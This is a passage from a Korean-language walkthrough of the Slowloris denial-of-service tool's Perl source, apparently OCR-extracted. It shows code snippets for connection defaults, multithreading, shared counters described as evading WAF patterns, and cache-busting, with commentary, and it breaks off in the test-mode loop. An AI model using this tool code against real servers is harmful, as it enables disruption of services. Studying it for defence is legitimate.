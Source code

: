     unless ($test) {
        unless ($timeout) {
            $timeout = 100;
            print "Defaulting to a 100 second re-try timeout.\n";
        }
        unless ($connections) {
            $connections = 1000;
            print "Defaulting to 1000 connections.\n";
        }
    }

받은 옵션을 처리하여 아래와 같이 몇몇 공격을 위한 설정을 합니다.

    #!perl
    # 현재 설치된 펄이 쓰레드를 지원할 경우 쓰레드를 사용합니다.
    my $usemultithreading = 0; 
    if ( $Config{usethreads} ) {
        print "Multithreading enabled.\n";
        $usemultithreading = 1;
        use threads;
        use threads::shared;
    }
    else {
        print "No multithreading capabilites found!\n";
        print "Slowloris will be slower than normal as a result.\n";
    }
    
    # 패킷 카운트, 세션을 마크하여 공유 함
    # 같은세션으로 연결할 경우 WAF 패턴에 잡히지 않도록 하는 설정
    my $packetcount     : shared = 0;
    my $failed          : shared = 0;
    my $connectioncount : shared = 0;
    
    # 캐시를 랜덤으로 생성하여 서버에 no-store옵션을
    # 역이용하여 cache를 계속 생성하게 하도록 합니다.
    srand() if ($cache);
    
    # 공격자의 호스트와 HTTP 요청 방식을 설정합니다.
    $sendhost = $shost     ? $shost : $host;
    $method   = $httpready ? "POST" : "GET";

이제부터 옵션을 설정하고 실질적으로 공격하는 부분을 봅니다.
세션을 늘리면서 테스트를 진행합니다.

    #!perl
    if ($test) {
        my @times = ( "2", "30", "90", "240", "500" );
        my $totaltime = 0;
        foreach (@times) {
            $totaltime = $totaltime + $_;
        }
        $totaltime = $totaltime / 60;
        print "This test could take up to $totaltime minutes.\n";
    